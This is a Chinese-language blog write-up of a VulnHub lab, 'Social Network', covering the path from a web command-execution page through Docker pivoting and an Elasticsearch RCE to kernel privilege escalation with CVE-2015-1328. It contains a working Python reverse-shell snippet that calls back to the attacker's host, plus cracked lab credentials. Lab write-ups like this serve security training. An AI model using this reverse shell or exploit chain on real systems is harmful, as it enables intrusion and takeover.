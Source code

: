 ```yaml
---
title: VulnHub靶场 Medium Socnet
description: VulnHub靶场 Medium Socnet WP
pubDate: 10 18 2024
image: https://img.trtyr.top/images/blog/VulnHub%E9%9D%B6%E5%9C%BA%20Medium%20Socnet/001%20Medium%20Socnet-17.png
categories:
  - 网络安全
tags:
  - 靶场
  - VulnHub靶场
  - 渗透测试
---
```


靶机下载连接：[BoredHackerBlog: Social Network \~ VulnHub](https://www.vulnhub.com/entry/boredhackerblog-social-network,454/)

## Web 渗透

进行主机发现，由于是在用一网段下，所以使用二层 ARP 发现，发现如下主机

![](https://img.trtyr.top/images/blog/VulnHub%E9%9D%B6%E5%9C%BA%20Medium%20Socnet/001%20Medium%20Socnet-1.png)

其中 `192.168.135.192` 是物理机器，`192.168.135.2` 是手机，对 22 和 47主机进行服务探测，找出我们的靶机

![](https://img.trtyr.top/images/blog/VulnHub%E9%9D%B6%E5%9C%BA%20Medium%20Socnet/001%20Medium%20Socnet-2.png)

找到靶机为 `192.168.135.22`，在 5000 端口下开放了一个 Python 语言的 HTTP 服务，进行访问，来到如下界面

![](https://img.trtyr.top/images/blog/VulnHub%E9%9D%B6%E5%9C%BA%20Medium%20Socnet/001%20Medium%20Socnet-3.png)

进行测试，页面没啥东西，进行目录扫描，发现 `/admin` 路径，页面如下

![](https://img.trtyr.top/images/blog/VulnHub%E9%9D%B6%E5%9C%BA%20Medium%20Socnet/001%20Medium%20Socnet-4.png)

可进行命令执行，插入一个 Python 反弹 shell，同时 nc 启动监听

```python
import socket, os
import pty

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(("192.168.135.192", 4444))
os.dup2(s.fileno(), 0)
os.dup2(s.fileno(), 1)
os.dup2(s.fileno(), 2)

pty.spawn("sh")
```

反弹成功，结果如下

![](https://img.trtyr.top/images/blog/VulnHub%E9%9D%B6%E5%9C%BA%20Medium%20Socnet/001%20Medium%20Socnet-8.png)

## 内网渗透

进行基本查看，ls 命令发现 Dockerfile 文件

![](https://img.trtyr.top/images/blog/VulnHub%E9%9D%B6%E5%9C%BA%20Medium%20Socnet/001%20Medium%20Socnet-9.png)

目标机器是一个 docker 容器，查看一下 IP

![](https://img.trtyr.top/images/blog/VulnHub%E9%9D%B6%E5%9C%BA%20Medium%20Socnet/001%20Medium%20Socnet-10.png)

目标机器只有一个内网网卡，为 `172.17.0.2/16` ，而我们访问的是 `192.168.135.22`，更能说明这是一个 docker 容器

使用 venom 搭建 socks5 隧道，在本地通关 python 搭建简单 HTTP 服务器，然后通过 wget 将 venom 客户端下载到目标靶机，搭建隧道

![](https://img.trtyr.top/images/blog/VulnHub%E9%9D%B6%E5%9C%BA%20Medium%20Socnet/001%20Medium%20Socnet-11.png)

隧道搭建成功，连接本地 1234 端口即可实现隧道通信。使用 Proxifier 代理，对 `172.17.0.2/16` 进行扫描，结果如下

![](https://img.trtyr.top/images/blog/VulnHub%E9%9D%B6%E5%9C%BA%20Medium%20Socnet/001%20Medium%20Socnet-14.png)

发现 `172.17.0.1`，并且它也开启了 5000 端口，访问后发现和 `172.17.0.2` 是一样的。对其余 IP 再进行探测

![](https://img.trtyr.top/images/blog/VulnHub%E9%9D%B6%E5%9C%BA%20Medium%20Socnet/001%20Medium%20Socnet-13.png)

发现 `172.17.0.3`，并且开放 9200 端口，对该端口进行详细的服务扫描

![](https://img.trtyr.top/images/blog/VulnHub%E9%9D%B6%E5%9C%BA%20Medium%20Socnet/001%20Medium%20Socnet-15.png)

是一个 1.4.2 版本的 `Elasticsearch REST API`，该应用曾经有过 RCE，去找一下有没有 EXP，结果如下

![](https://img.trtyr.top/images/blog/VulnHub%E9%9D%B6%E5%9C%BA%20Medium%20Socnet/001%20Medium%20Socnet-16.png)

查看该 EXP

![](https://img.trtyr.top/images/blog/VulnHub%E9%9D%B6%E5%9C%BA%20Medium%20Socnet/001%20Medium%20Socnet-17.png)

是一个 python2 版本的 exp，用 python3 格式重新写一下，然后直接利用试试，上来直接拿到 root 权限

![](https://img.trtyr.top/images/blog/VulnHub%E9%9D%B6%E5%9C%BA%20Medium%20Socnet/001%20Medium%20Socnet-18.png)

ls 命令发现有个 passwords，里面是用户密码

![](https://img.trtyr.top/images/blog/VulnHub%E9%9D%B6%E5%9C%BA%20Medium%20Socnet/001%20Medium%20Socnet-19.png)

挨个解 MD5，得到如下结果

```
john:1337hack
test:1234test
admin:1111pass
root:1234pass
jane:1234jane
```

尝试使用 SSH 登录，结果只有 `john:1337hack` 成功登录，没有 sudo 权限。

![](https://img.trtyr.top/images/blog/VulnHub%E9%9D%B6%E5%9C%BA%20Medium%20Socnet/001%20Medium%20Socnet-20.png)

注意到 Linux 内核版本为 `3.13.0` ，上传扫描脚本，开扫！

![](https://img.trtyr.top/images/blog/VulnHub%E9%9D%B6%E5%9C%BA%20Medium%20Socnet/001%20Medium%20Socnet-21.png)

没 sudo 权限，dirtycow 用不了，选择使用 `CVE-2015-1328`。靶机没 GCC

![](https://img.trtyr.top/images/blog/VulnHub%E9%9D%B6%E5%9C%BA%20Medium%20Socnet/001%20Medium%20Socnet-22.png)

先编译成二进制文件，再上传执行

![](https://img.trtyr.top/images/blog/VulnHub%E9%9D%B6%E5%9C%BA%20Medium%20Socnet/001%20Medium%20Socnet-23.png)

![](https://img.trtyr.top/images/blog/VulnHub%E9%9D%B6%E5%9C%BA%20Medium%20Socnet/001%20Medium%20Socnet-24.png)

失败了，看一下代码

![](https://img.trtyr.top/images/blog/VulnHub%E9%9D%B6%E5%9C%BA%20Medium%20Socnet/001%20Medium%20Socnet-25.png)

这个地方，它又重新调用了 gcc 去生成了一个 `/tmp/ofs-lib.so` 库文件，但是靶机是没有 gcc 的，所以它无法生成这个库文件。

嗯……生成的二进制文件要生成一个库文件，那我们直接把这段代码给他删了，然后直接在目标目录下放一个已经设置好的库文件呢？

修改代码，重新编译

![](https://img.trtyr.top/images/blog/VulnHub%E9%9D%B6%E5%9C%BA%20Medium%20Socnet/001%20Medium%20Socnet-28.png)

然后找 `ofs-lib.so`

![](https://img.trtyr.top/images/blog/VulnHub%E9%9D%B6%E5%9C%BA%20Medium%20Socnet/001%20Medium%20Socnet-27.png)

把他们全部放到靶机里，库文件放到 `/tmp` 下

![](https://img.trtyr.top/images/blog/VulnHub%E9%9D%B6%E5%9C%BA%20Medium%20Socnet/001%20Medium%20Socnet-29.png)

提权成功。
